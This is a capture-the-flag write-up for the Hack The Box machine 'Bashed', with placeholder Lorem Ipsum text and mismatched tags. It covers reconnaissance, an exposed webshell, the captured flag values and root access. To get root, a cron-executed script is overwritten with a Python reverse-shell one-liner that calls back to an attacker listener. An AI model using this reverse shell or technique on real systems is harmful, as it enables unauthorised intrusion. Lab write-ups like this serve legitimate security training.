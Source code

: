 ```yaml
---
layout: single
title: Bashed - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-16
classes: wide
header:
  teaser: /assets/images/htb-writeup-bashed/bashed_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-bashed/bashed_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/bashed]# nmap -Pn -n -sCV 10.10.10.68                                                                              (master✱)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Arrexel's Development Site

  DIRB:
  ==> DIRECTORY: http://10.10.10.68/css/
  ==> DIRECTORY: http://10.10.10.68/dev/
  ==> DIRECTORY: http://10.10.10.68/fonts/
  ==> DIRECTORY: http://10.10.10.68/images/
  + http://10.10.10.68/index.html (CODE:200|SIZE:7743)
  ==> DIRECTORY: http://10.10.10.68/js/
  ==> DIRECTORY: http://10.10.10.68/php/
  + http://10.10.10.68/server-status (CODE:403|SIZE:299)
  ==> DIRECTORY: http://10.10.10.68/uploads/

  NIKTO:
  + Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
  + /config.php: PHP Config file may contain database IDs and passwords.


2. Enumerating the dirb results we quickly find http://10.10.10.68/dev/phpbash.php, a responsive webshell.

    www-data@bashed:/var/www/html/dev# whoami
      www-data

    www-data@bashed:/var/www/html/dev# cat /etc/passwd
      root:x:0:0:root:/root:/bin/bash
      daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
      bin:x:2:2:bin:/bin:/usr/sbin/nologin
      sys:x:3:3:sys:/dev:/usr/sbin/nologin
      sync:x:4:65534:sync:/bin:/bin/sync
      games:x:5:60:games:/usr/games:/usr/sbin/nologin
      man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
      lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
      mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
      news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
      uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
      proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
      www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
      backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
      list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
      irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
      gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
      nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
      systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
      systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
      systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
      systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
      syslog:x:104:108::/home/syslog:/bin/false
      _apt:x:105:65534::/nonexistent:/bin/false
      messagebus:x:106:110::/var/run/dbus:/bin/false
      uuidd:x:107:111::/run/uuidd:/bin/false
      arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
      scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash

    www-data@bashed:/home/arrexel# cat user.txt
      2c281f318555dbc1b856957c7147bfc1


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Investigate if we can run anything as root.

    www-data@bashed:/home# sudo -l

      Matching Defaults entries for www-data on bashed:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

      User www-data may run the following commands on bashed:
      (scriptmanager : scriptmanager) NOPASSWD: ALL


    www-data@bashed:/# sudo -u scriptmanager ls -al /scripts
      total 16
      drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 2017 .
      drwxr-xr-x 23 root root 4096 Dec 4 2017 ..
      -rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
      -rw-r--r-- 1 root root 12 Feb 23 05:22 test.txt

    www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.py
      f = open("test.txt", "w")
      f.write("testing 123!")
      f.close

    www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.txt
      testing 123!


2. As we can see from the ls-output above, test.txt is owned by root, maybe the script test.py is ran as root by a cronjob?
   Modify the script with a python one-liner, setup a local listener and wait.

   www-data@bashed:/# sudo -u scriptmanager echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",4499));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > test.py
   [root:/git/htb/bashed]# nc -lvnp 4499                                                                                             (master✱)
    listening on [any] 4499 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.68] 40690
    /bin/sh: 0: can't access tty; job control turned off
    # whoami
      root
    # cat /root/root.txt
      cc4f0afe3a1026d402ba10329674a8e2


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝
